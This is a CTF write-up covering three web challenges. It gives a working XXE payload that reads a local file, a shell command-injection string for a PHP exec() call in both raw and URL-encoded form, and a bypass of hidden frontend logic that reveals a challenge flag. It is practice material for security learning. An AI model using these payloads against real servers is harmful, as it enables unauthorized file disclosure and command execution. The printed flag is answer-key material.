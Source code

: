 
# 🛡️ CTF Challenge Write-Up: Three Real-World Exploits

**Author:** Raj Konkar  
**Date:** May 12, 2025

In this write-up, I detail three vulnerabilities exploited during my CTF practice sessions. These reflect real-world flaws and highlight how methodical analysis can lead to successful flag capture.

---

## 🧨 Exploit 1: XXE (XML External Entity Injection)

**Challenge Type:** Web – Firmware Update Simulation  
**Vulnerability:** Improper XML parsing in a POST endpoint  
**Affected Endpoint:** `/api/update`

### 🔍 Identification
The web app used a POST endpoint to submit XML data. By inspecting `update.js`, I noticed the content type `application/xml`, hinting that a vulnerable XML parser was in use. Testing with curl confirmed the endpoint behavior.

### 🔧 Exploit Payload
```xml
<!DOCTYPE FirmwareUpdateConfig [
  <!ELEMENT FirmwareUpdateConfig ANY >
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<FirmwareUpdateConfig>
  <Firmware>
    <Version>&xxe;</Version>
  </Firmware>
</FirmwareUpdateConfig>
```

### ✅ Result
The server response included the contents of `/flag.txt`, confirming a successful XXE-based file disclosure.

---

## 🧨 Exploit 2: Command Injection via PHP `exec()`

**Challenge Type:** Web – Time Display App (TimeKORP)  
**Vulnerability:** Command Injection  
**Affected Parameter:** `format`

### 🔍 Identification
Reviewing `TimeModel.php`, I found the `format` parameter passed directly into a shell command via `exec()`:
```php
$this->command = "date '+" . $format . "'";
```

### 🔧 Exploit Payload
```bash
'; cat /flag; #
```
Encoded:
```
%27%3Bcat%20/flag%3B%23
```
Final URL:
```
http://[target]/?format=%27%3Bcat%20/flag%3B%23
```

### ✅ Result
The server returned the contents of `/flag`, confirming successful command injection.

---

## 🧨 Exploit 3: Hidden Logic Command Trigger

**Challenge Type:** Web – Text-Based Adventure Game  
**Vulnerability:** Frontend-hidden logic validation bypass

### 🔍 Identification
The frontend validated commands using a JavaScript `availableOptions` object. Monitoring `/api/options` in DevTools revealed a hidden `"secret"` command:

```
"secret": ["Blip-blop, in a pickle with a hiccup! Shmiggity-shmack"]
```

### 🔧 Exploit
I entered the string exactly as shown in the interface:
```
Blip-blop, in a pickle with a hiccup! Shmiggity-shmack
```

### ✅ Result
The app triggered `/api/monitor` and returned:
```
HTB{D3v3l0p3r_t00l5_4r3_b35t_wh4t_y0u_Th1nk??!_ab637978c1631b43cc6040d8a1e544ba}
```

---

## 🧠 Key Takeaways

- Always inspect JavaScript and frontend logic.
- XML endpoints must be hardened against XXE.
- Direct use of `exec()` on user input is highly dangerous.
- CTFs mirror real-world flaws, and practice translates into real pentesting skill.

---

> 📌 *For more CTFs and security tools, visit my GitHub: [https://github.com/rajkonkar](https://github.com/rajkonkar)*


